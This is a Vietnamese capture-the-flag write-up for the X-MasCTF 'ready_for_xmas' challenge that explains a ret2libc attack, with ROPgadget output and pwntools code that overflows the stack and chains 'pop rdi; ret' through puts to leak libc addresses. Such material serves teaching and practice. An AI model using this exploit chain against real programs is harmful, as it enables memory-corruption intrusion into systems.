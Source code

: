 ### Đó là các vấn đề ta phải vượt qua, phần còn lại ta dùng kỹ thuật ret2libc để leak ra địa chỉ của một hàm bất kỳ sau đó trừ cho offset của nó là ra được địa chỉ libc base. Cộng các địa chỉ này vs offset lấy từ libc ta sẽ có được hàm libc tương ứng.
### Mình sẽ nói sơ qua về kỹ thuật ret2libc. Ở payload đầu tiên ta sẽ ghì đè return address là địa chỉ gadget ```pop rdi ; ret``` ta tìm địa chỉ này bằng cách dùng công cụ ROPgadget:
```
higgs@DESKTOP-PMDB9KR:/mnt/c/Users/19520/Music/X-MasCTF/ready_for_xmas$ ROPgadget --binary chall
Gadgets information
============================================================
0x00000000004006de : adc byte ptr [rax], ah ; jmp rax
.......

0x00000000004008e3 : pop rdi ; ret
0x0000000000400760 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4006f5
0x00000000004005e6 : ret
```
### Ta chỉ quân tâm đến gadget ```pop rdi; ret```  nên những cái còn lại mình sẽ lọc bớt. Vậy khi ghi đè địa chỉ return address bằng gadget này thì nó sẽ làm gì?
```
rbp
return address -> gadget: pop rdi; ret
addr_ 1
addr_2
``` 
### Lệnh pop rdi sẽ lấy addr_1 cho vào thanh ghi rdi; ret sẽ làm thanh ghi $rip trỏ vào addr_2
### Vậy để leak được địa chỉ của 1 hàm bất kỳ ta sẽ cho rdi->got@function ; ret-> plt@puts (vì trong chương trình chỉ gọi mỗi hàm puts để in ra output nên chỉ có plt@puts là xuất ra được). got@function ở đây bạn cần thay vào địa chỉ got của 1 hàm bất kỳ nằm trong GOT của chương trình hiện tại .  GOT là viết tắt của ```global offset table``` theo mình hiểu sơ qua đó là khi 1 chương trình gọi 1 hàm trong thư viện thì nó sẽ lưu địa chỉ của hàm đó lại trong GOT để lần sau chương trình có gọi lại hàm đó thì chương trình chỉ cần lấy địa chỉ cùa hàm đó trong GOT để tái sử dụng 
> code leak (mình sẽ tiến hành leak address của puts):
```
 p.recvuntil('Hi. How are you doing today, good sir? Ready for Christmas?\n')
    payload = "A"*0x40
    payload += p64(bss_addr)    #rbp
    payload += p64(pop_rdi)
    payload += p64(elf.symbols['got.puts'])
    payload += p64(elf.symbols['plt.puts'])
    payload += p64(main)
    p.sendline(payload)
```
### Sau đó thì địa chỉ của hàm puts sẽ được in ra lấy địa chỉ này trừ cho offset của nó trên libc (offset là cố định không bao giờ thay đổi với mỗi libc). Ta lấy địa chỉ của hàm puts - offset_puts = base_libc thì ta sẽ ra được địa chỉ cơ sở của libc. lấy địa chỉ này cộng với offset của tương ứng của hàm đó ta sẽ ra địa chỉ của nó trên chương trình đang thực thi:
```
    recieved = p.recvline().strip()
```